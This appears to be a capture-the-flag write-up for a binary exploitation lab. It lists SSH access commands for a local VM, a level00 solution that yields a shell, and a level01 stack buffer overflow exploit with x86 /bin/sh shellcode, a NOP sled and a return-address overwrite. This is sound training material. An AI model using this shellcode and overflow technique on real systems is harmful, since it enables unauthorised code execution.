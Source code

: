 ## Some commands

```shell
./scripts/startVM.sh
export OR_HOST=192.168.1.70
export OR_PORT=4242

./scripts/installUtils.sh

ssh -q level00@$OR_HOST -p $OR_PORT
sshpass -f level00/flag ssh level1@$OR_HOST -p $OR_PORT

scp -q -P $OR_PORT -r <FILE> level00@$OR_HOST:/tmp/<FILE>
```

---

## Level00 - Disassemble and find the solution

### Resolve

Just put `5276` (`0x149c`) in the scanf prompt. Then the shell is executed.

```shell
(echo 5276; cat) | ~/level00
```

---

## Level01 - Buffer overflow

The second prompt `fgets` takes 0x64 bytes, but the buffer can only takes 0x48

### Resolve

```shell
b*main+169
run < <(python -c 'print "dat_wil\n" + "A" * 0x48')
x/24x $esp+0x1c
p 0x48 + 8
$3 = 0x50 # => offset

export SHELLCODE=`python -c "print '\x90' * 0xff + '\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80'"`

./getenv32 SHELLCODE ~/level01
  0xffffd755

python -c 'print "dat_wil\n" + "A" * 0x50 + "\x55\xd7\xff\xff"' > /tmp/exploit01

cat /tmp/exploit01 - | ~/level01
```

---